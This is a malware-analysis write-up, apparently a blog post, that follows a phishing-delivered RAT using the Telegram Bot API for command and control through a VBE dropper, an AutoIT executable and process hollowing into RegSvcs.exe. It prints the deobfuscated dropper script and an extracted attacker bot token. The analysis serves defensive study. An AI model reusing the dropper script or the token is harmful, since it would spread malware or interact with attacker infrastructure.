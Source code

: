 ```yaml
---
tags: RATs
---
```

## Telegram RAT Analysis

The Telegram Bot API is often abused by threat actors as a means of command and control. ToxicEye is a notable group that have been reported using Telegram to distribute ransomware to infected systems.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fc12c17c-2a8c-4b15-b042-f83659e03b32)

Full command execution can be achieved through the use of Telegram.

The sample we're looking at in this example is a .scr file which was seen masquerading as a payment slip, sent to the victim in a phishing email.

Upon execution, we observed multiple file writes to the 'C:\Users\user\AppData\Local\Temp\ckil' directory.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/0bf995f7-d399-456a-936e-463a76d0dc79)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/8a9201bf-f17d-408e-9e86-6de272b1198b)

Multiple suspicious files are written to this directory.

Following the execution chain from the initial .scr file, we see a process creation event for wscript with the following command line.
```
"C:\Windows\System32\wscript.exe" Update-fv.q.vbe
```
_Contents of Update-fv.q.vbe_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/4a4a4200-5a2a-4f83-b010-330336724efc)


The VBE file contains a lot of garbage strings, we can throw it into CyberChef and use the following operators to make more sense of it

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/f79b34b7-4b46-4b70-9692-d173545463dc)

Output:
```
on error resume nextWScript.Sleep n_j_feSub n_j_feWScript.Sleep  8000End Subsivnehjsfs = "vfkxqlmq.xml"iwxjoanjprnnpn = "xohfpemfj.pif"fsmulsdthu = "WScript.Shell" Set cmglbwkfeao = WScript.CreateObject(fsmulsdthu )vumdhedmernke = iwxjoanjprnnpn  " "  sivnehjsfscmglbwkfeao.Run vumdhedmernke
```
A few of the files written previously are referenced, most notably: xohfpemfj.pif, as this is next in the execution chain

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/83be4ee6-d9e6-4668-8b4f-d79cc739d348)

This .pif file is actually an executable which seems to attempt to masquerade as Telegram.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5d0d8f41-fd8e-4257-8a02-ebe7b0d3d6ab)

Strings indicate this is an AutoIT binary

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/c96e9558-02c7-4f53-b8b9-eed8296c38d8)


There are also some indications of process injection / hollowing present within this binary.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/356e8d2d-5639-4619-a2c9-d67b4ecf9355)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/689535d5-b927-4d3f-8655-455fc523dbfd)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7fc43795-a8dc-4863-8a95-209d9900b6c4)

Back to following the execution chain, we can see that xohfpemfj.pif spawns RegSvcs.exe.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/fc9512dd-b7c5-4e23-a331-cf5f32954bd5)

This is the legitimate Windows binary, but it was created by the suspicious xohfpemfj process and is being abused as a means of process hollowing into a legitimate process.

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/7a30f6b9-fe1d-4584-bdcb-e82302246e61)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b99e8393-d8c9-4ef7-a4ef-f24f9fdf9218)


_Basic Execution Flow_

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/b1e08f3f-07aa-4d82-aeab-650cafc21f6f)


Using Process Hacker, we can interrogate the memory of this process and try to find some interesting things. We start by filtering for "HTTP" to search for any network traffic, and we do see results for api.telegram.com, so we'll change our filter to Telegram to identify the following strings:

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/5825edf8-3f3d-4b15-bb5d-ff50619cf7e7)

Looks like we're able to get the Bot API Key from one of these strings, which appears to be "6050257799:AAFHIZowkIt9yf7Vbe1qSQ_LYisLTkZAj4c"

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/9e08cf4f-6e37-4918-8133-78b5bcee6f13)

![image](https://github.com/MZHeader/MZHeader.github.io/assets/151963631/6f70ff47-78c0-4673-aaee-0329f8ae55a8)



